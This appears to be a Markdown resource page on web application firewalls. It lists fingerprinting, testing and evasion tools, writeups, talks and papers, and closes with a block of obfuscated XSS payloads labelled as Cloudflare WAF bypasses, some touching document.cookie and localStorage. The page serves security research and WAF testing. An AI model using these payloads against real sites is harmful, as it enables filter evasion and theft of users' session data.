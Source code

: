 # Web Application Firewall

[Awesome-WAF](https://github.com/0xInfection/Awesome-WAF) - The Definitive Guide.

### Fingerprinting

* [WhatWaf](https://github.com/Ekultek/WhatWaf) - Detect and bypass web application firewalls and protection systems
* [WAFW00F](https://github.com/enablesecurity/wafw00f) - The ultimate WAF fingerprinting tool with the largest fingerprint database from [@EnableSecurity](https://github.com/enablesecurity).
* [IdentYwaf](https://github.com/stamparm/identywaf) - A blind WAF detection tool which utlises a unique method of identifying WAFs based upon previously collected fingerprints by [@stamparm](https://github.com/stamparm).

### Testing

* [XSS-Rat's WAF Checklist](https://github.com/The-XSS-Rat/SecurityTesting/blob/master/Checklists/WAF-bypass-checklist.md) - Everything you need to do to bypass a Web Application Firewall.
* [GoTestWAF](https://github.com/wallarm/gotestwaf) - A tool to test a WAF's detection logic and bypasses from [@wallarm](https://github.com/wallarm).
* [Lightbulb Framework](https://github.com/lightbulb-framework/lightbulb-framework) - A WAF testing suite written in Python.
* [WAFBench](https://github.com/microsoft/wafbench) - A WAF performance testing suite by [Microsoft](https://github.com/microsoft).
* [WAF Testing Framework](https://www.imperva.com/lg/lgw\_trial.asp?pid=483) - A WAF testing tool by [Imperva](https://imperva.com).
* [Framework for Testing WAFs (FTW)](https://github.com/coreruleset/ftw) - A framework by the [OWASP CRS team](https://coreruleset.org) that helps to provide rigorous tests for WAF rules by using the OWASP Core Ruleset V3 as a baseline.
* [abuse-ssl-bypass-waf](https://github.com/LandGrey/abuse-ssl-bypass-waf) - Bypassing WAF by abusing SSL/TLS Ciphers

### Evasion

* [WAFNinja](https://github.com/khalilbijjou/wafninja) - A smart tool which fuzzes and can suggest bypasses for a given WAF by [@khalilbijjou](https://github.com/khalilbijjou/).
* [WAFTester](https://github.com/Raz0r/waftester) - Another tool which can obfuscate payloads to bypass WAFs by [@Raz0r](https://github.com/Raz0r/).
* [libinjection-fuzzer](https://github.com/migolovanov/libinjection-fuzzer) - A fuzzer intended for finding `libinjection` bypasses but can be probably used universally.
* [bypass-firewalls-by-DNS-history](https://github.com/vincentcox/bypass-firewalls-by-DNS-history) - Firewall bypass script based on DNS history records. This script will search for DNS A history records and check if the server replies for that domain. Handy for bugbounty hunters.
* [abuse-ssl-bypass-waf](https://github.com/LandGrey/abuse-ssl-bypass-waf) - A tool which finds out supported SSL/TLS ciphers and helps in evading WAFs.
* [SQLMap Tamper Scripts](https://github.com/sqlmapproject/sqlmap) - Tamper scripts in SQLMap obfuscate payloads which might evade some WAFs.
* [Bypass WAF BurpSuite Plugin](https://portswigger.net/bappstore/ae2611da3bbc4687953a1f4ba6a4e04c) - A plugin for Burp Suite which adds some request headers so that the requests seem from the internal network
* Bypass Payloads
  * [https://github.com/waf-bypass-maker/waf-community-bypasses](https://github.com/waf-bypass-maker/waf-community-bypasses)
  * [https://github.com/Walidhossain010/WAF-bypass-xss-payloads](https://github.com/Walidhossain010/WAF-bypass-xss-payloads)

### Blogs and Writeups

> Many of the content mentioned above have been taken from some of the following excellent writeups.

* [Web Application Firewall (WAF) Evasion Techniques #1](https://medium.com/secjuice/waf-evasion-techniques-718026d693d8) - By [@Secjuice](https://www.secjuice.com).
* [Web Application Firewall (WAF) Evasion Techniques #2](https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0) - By [@Secjuice](https://www.secjuice.com).
* [Web Application Firewall (WAF) Evasion Techniques #3](https://www.secjuice.com/web-application-firewall-waf-evasion/) - By [@Secjuice](https://www.secjuice.com).
* [How To Exploit PHP Remotely To Bypass Filters & WAF Rules](https://www.secjuice.com/php-rce-bypass-filters-sanitization-waf/)- By [@Secjuice](https://secjuice.com)
* [ModSecurity SQL Injection Challenge: Lessons Learned](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/modsecurity-sql-injection-challenge-lessons-learned/) - By [@SpiderLabs](https://trustwave.com).
* [XXE that can Bypass WAF](https://lab.wallarm.com/xxe-that-can-bypass-waf-protection-98f679452ce0) - By [@WallArm](https://labs.wallarm.com).
* [SQL Injection Bypassing WAF](https://www.owasp.org/index.php/SQL\_Injection\_Bypassing\_WAF) - By [@OWASP](https://owasp.com).
* [How To Reverse Engineer A Web Application Firewall Using Regular Expression Reversing](https://www.sunnyhoi.com/reverse-engineer-web-application-firewall-using-regular-expression-reversing/) - By [@SunnyHoi](https://twitter.com/sunnyhoi).
* [Bypassing Web-Application Firewalls by abusing SSL/TLS](https://0x09al.github.io/waf/bypass/ssl/2018/07/02/web-application-firewall-bypass.html) - By [@0x09AL](https://twitter.com/0x09al).
* [Request Encoding to Bypass WAFs](https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2017/august/request-encoding-to-bypass-web-application-firewalls/) - By [@Soroush Dalili](https://twitter.com/irsdl)

### Video Presentations

* [WAF Bypass Techniques Using HTTP Standard and Web Servers Behavior](https://www.youtube.com/watch?v=tSf\_IXfuzXk) from [@OWASP](https://owasp.org).
* [Confessions of a WAF Developer: Protocol-Level Evasion of Web App Firewalls](https://www.youtube.com/watch?v=PVVG4rCFZGU) from [BlackHat USA 12](https://blackhat.com/html/bh-us-12).
* [Web Application Firewall - Analysis of Detection Logic](https://www.youtube.com/watch?v=dMFJLicdaC0) from [BlackHat](https://blackhat.com).
* [Bypassing Browser Security Policies for Fun & Profit](https://www.youtube.com/watch?v=P5R4KeCzO-Q) from [BlackHat](https://blackhat.com).
* [Web Application Firewall Bypassing](https://www.youtube.com/watch?v=SD7ForrwUMY) from [Positive Technologies](https://ptsecurity.com).
* [Fingerprinting Filter Rules of Web Application Firewalls - Side Channeling Attacks](https://www.usenix.org/conference/woot12/workshop-program/presentation/schmitt) from [@UseNix](https://www.usenix.com).
* [Evading Deep Inspection Systems for Fun and Shell](https://www.youtube.com/watch?v=BkmPZhgLmRo) from [BlackHat US 13](https://blackhat.com/html/bh-us-13).
* [Bypass OWASP CRS && CWAF (WAF Rule Testing - Unrestricted File Upload)](https://www.youtube.com/watch?v=lWoxAjvgiHs) from [Fools of Security](https://www.youtube.com/channel/UCEBHO0kD1WFvIhf9wBCU-VQ).
* [WAFs FTW! A modern devops approach to security testing your WAF](https://www.youtube.com/watch?v=05Uy0R7UdFw) from [AppSec USA 17](https://www.youtube.com/user/OWASPGLOBAL).
* [Web Application Firewall Bypassing WorkShop](https://www.youtube.com/watch?v=zfBT7Kc57xs) from [OWASP](https://owasp.com).
* [Bypassing Modern WAF's Exemplified At XSS by Rafay Baloch](https://www.youtube.com/watch?v=dWLpw-7\_pa8) from [Rafay Bloch](http://rafaybaloch.com).
* [WTF - WAF Testing Framework](https://www.youtube.com/watch?v=ixb-L5JWJgI) from [AppSecUSA 13](https://owasp.org).
* [The Death of a Web App Firewall](https://www.youtube.com/watch?v=mB\_xGSNm8Z0) from [Brian McHenry](https://www.youtube.com/channel/UCxzs-N2sHnXFwi0XjDIMTPg).
* [Adventures with the WAF](https://www.youtube.com/watch?v=rdwB\_p0KZXM) from [BSides Manchester](https://www.youtube.com/channel/UC1mLiimOTqZFK98VwM8Ke4w).
* [Bypassing Intrusion Detection Systems](https://www.youtube.com/watch?v=cJ3LhQXzrXw) from [BlackHat](https://blackhat.com).
* [Building Your Own WAF as a Service and Forgetting about False Positives](https://www.youtube.com/watch?v=dgqUcHprolc) from [Auscert](https://conference.auscert.org.au).

### Presentations & Research Papers

#### Research Papers:

* [Protocol Level WAF Evasion](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Qualys%20Guide%20-%20Protocol-Level%20WAF%20Evasion.pdf) - A protocol level WAF evasion techniques and analysis by [Qualys](https://www.qualys.com).
* [Neural Network based WAF for SQLi](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Artificial%20Neural%20Network%20based%20WAF%20for%20SQL%20Injection.pdf) - A paper about building a neural network based WAF for detecting SQLi attacks.
* [Bypassing Web Application Firewalls with HTTP Parameter Pollution](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Bypassing%20Web%20Application%20Firewalls%20with%20HTTP%20Parameter%20Pollution.pdf) - A research paper from [Exploit DB](https://exploit-db.com) about effectively bypassing WAFs via HTTP Parameter Pollution.
* [Poking A Hole in the Firewall](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Poking%20A%20Hole%20In%20The%20Firewall.pdf) - A paper by [Rafay Baloch](https://www.rafaybaloch.com) about modern firewall analysis.
* [Modern WAF Fingerprinting and XSS Filter Bypass](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Modern%20WAF%20Fingerprinting%20and%20XSS%20Filter%20Bypass.pdf) - A paper by [Rafay Baloch](https://www.rafaybaloch.com) about WAF fingerprinting and bypassing XSS filters.
* [WAF Evasion Testing](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/SANS%20Guide%20-%20WAF%20Evasion%20Testing.pdf) - A WAF evasion testing guide from [SANS](https://www.sans.org).
* [Side Channel Attacks for Fingerprinting WAF Filter Rules](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Side%20Channel%20\(Timing\)%20Attacks%20for%20Fingerprinting%20WAF%20Rules.pdf) - A paper about how side channel attacks can be utilised to fingerprint firewall filter rules from [UseNix Woot'12](https://www.usenix.org/conference/woot12).
* [WASC WAF Evaluation Criteria](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/WASC%20WAF%20Evaluation%20Criteria.pdf) - A guide for WAF Evaluation from [Web Application Security Consortium](http://www.webappsec.org).
* [WAF Evaluation and Analysis](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Web%20Application%20Firewalls%20-%20Evaluation%20and%20Analysis.pdf) - A paper about WAF evaluation and analysis of 2 most used WAFs (ModSecurity & WebKnight) from [University of Amsterdam](http://www.uva.nl).
* [Bypassing all WAF XSS Filters](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Evading%20All%20Web-Application%20Firewalls%20XSS%20Filters.pdf) - A paper about bypassing all XSS filter rules and evading WAFs for XSS.
* [Beyond SQLi - Obfuscate and Bypass WAFs](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Beyond%20SQLi%20-%20Obfuscate%20and%20Bypass%20WAFs.txt) - A research paper from [Exploit Database](https://exploit-db.com) about obfuscating SQL injection queries to effectively bypass WAFs.
* [Bypassing WAF XSS Detection Mechanisms](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Bypassing%20WAF%20XSS%20Detection%20Mechanisms.pdf) - A research paper about bypassing XSS detection mechanisms in WAFs.

#### Presentations:

* [Methods to Bypass a Web Application Firewall](https://github.com/0xInfection/Awesome-WAF/blob/master/presentrations/Methods%20To%20Bypass%20A%20Web%20Application%20Firewall.pdf) - A presentation from [PT Security](https://www.ptsecurity.com) about bypassing WAF filters and evasion.
* [Web Application Firewall Bypassing (How to Defeat the Blue Team)](https://github.com/0xInfection/Awesome-WAF/blob/master/presentation/Web%20Application%20Firewall%20Bypassing%20\(How%20to%20Defeat%20the%20Blue%20Team\).pdf) - A presentation about bypassing WAF filtering and ruleset fuzzing for evasion by [@OWASP](https://owasp.org).
* [WAF Profiling & Evasion Techniques](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/OWASP%20WAF%20Profiling%20&%20Evasion.pdf) - A WAF testing and evasion guide from [OWASP](https://www.owasp.org).
* [Protocol Level WAF Evasion Techniques](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/BlackHat%20US%2012%20-%20Protocol%20Level%20WAF%20Evasion%20\(Slides\).pdf) - A presentation at about efficiently evading WAFs at protocol level from [BlackHat US 12](https://www.blackhat.com/html/bh-us-12/).
* [Analysing Attacking Detection Logic Mechanisms](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/BlackHat%20US%2016%20-%20Analysis%20of%20Attack%20Detection%20Logic.pdf) - A presentation about WAF logic applied to detecting attacks from [BlackHat US 16](https://www.blackhat.com/html/bh-us-16/).
* [WAF Bypasses and PHP Exploits](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/WAF%20Bypasses%20and%20PHP%20Exploits%20\(Slides\).pdf) - A presentation about evading WAFs and developing related PHP exploits.
* [Side Channel Attacks for Fingerprinting WAF Filter Rules](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/Side%20Channel%20Attacks%20for%20Fingerprinting%20WAF%20Filter%20Rules.pdf) - A presentation about how side channel attacks can be utilised to fingerprint firewall filter rules from [UseNix Woot'12](https://www.usenix.org/conference/woot12).
* [Our Favorite XSS Filters/IDS and how to Attack Them](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/Our%20Favourite%20XSS%20WAF%20Filters%20And%20How%20To%20Bypass%20Them.pdf) - A presentation about how to evade XSS filters set by WAF rules from [BlackHat USA 09](https://www.blackhat.com/html/bh-us-09/).
* [Playing Around with WAFs](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/Playing%20Around%20with%20WAFs.pdf) - A small presentation about WAF profiling and playing around with them from [Defcon 16](http://www.defcon.org/html/defcon-16/dc-16-post.html).
* [A Forgotten HTTP Invisibility Cloak](https://github.com/0xInfection/Awesome-WAF/blob/master/presentation/A%20Forgotten%20HTTP%20Invisibility%20Cloak.pdf) - A presentation about techniques that can be used to bypass common WAFs from [BSides Manchester](https://www.bsidesmcr.org.uk).
* [Building Your Own WAF as a Service and Forgetting about False Positives](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/Building%20Your%20Own%20WAF%20as%20a%20Service%20and%20Forgetting%20about%20False%20Positives.pdf) - A presentation about how to build a hybrid mode waf that can work both in an out-of-band manner as well as inline to reduce false positives and latency [Auscert2019](https://conference.auscert.org.au).

## Attack Code

### Cloudflare Bypass

```
<svg%0Aonauxclick=0;[1].some(confirm)//

<svg onload=alert%26%230000000040"")>

<a/href=j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(1)&rpar;>
<svg onx=() onload=(confirm)(1)>

<svg onx=() onload=(confirm)(document.cookie)>

<svg onx=() onload=(confirm)(JSON.stringify(localStorage))>

Function("\x61\x6c\x65\x72\x74\x28\x31\x29")();

"><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;

Function("\x61\x6c\x65\x72\x74\x28\x31\x29")();

"><onx=[] onmouseover=prompt(1)>

%2sscript%2ualert()%2s/script%2u -xss popup

<svg onload=alert%26%230000000040"1")>

"Onx=() onMouSeoVer=prompt(1)>"Onx=[] onMouSeoVer=prompt(1)>"/*/Onx=""//onfocus=prompt(1)>"//Onx=""/*/%01onfocus=prompt(1)>"%01onClick=prompt(1)>"%2501onclick=prompt(1)>"onClick="(prompt)(1)"Onclick="(prompt(1))"OnCliCk="(prompt`1`)"Onclick="([1].map(confirm))

[1].map(confirm)'ale'+'rt'()a&Tab;l&Tab;e&Tab;r&Tab;t(1)prompt&lpar;1&rpar;prompt&#40;1&#41;prompt%26%2300000000000000000040;1%26%2300000000000000000041;(prompt())(prompt``)

<svg onload=prompt%26%230000000040document.domain)>

<svg onload=prompt%26%23x000000028;document.domain)>

<svg/onrandom=random onload=confirm(1)>

<video onnull=null onmouseover=confirm(1)>

<a id=x tabindex=1 onbeforedeactivate=print(`XSS`)></a><input autofocus>

:javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.cookie

<img ignored=() src=x onerror=prompt(1)>
```
